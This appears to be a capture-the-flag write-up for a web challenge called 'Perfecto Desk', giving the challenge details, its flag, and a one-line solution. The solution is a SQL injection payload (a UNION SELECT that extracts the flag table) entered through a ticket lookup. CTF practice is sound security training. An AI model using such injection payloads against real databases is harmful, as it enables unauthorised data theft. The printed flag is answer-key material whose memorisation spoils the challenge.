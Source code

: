 # Web: Perfecto Desk

- **Skapare:** Calle Svensson
- **Poäng:** 150
- **Antal lösningar:** 9

## Beskrivning

We run the best customer support desk in the world with an absolutely perfect track record.

Check it out at: URL

## Flag

`SSM{mayb3_n0t_dat_perfect0_4fter_ALL}`

## Lösning

Check ticket -> `' UNION SELECT 1,(SELECT flag FROM flag),2,3; #`

## Lösning på livestream

https://www.youtube.com/watch?v=CYBGQ9Zp6UQ&t=2365s

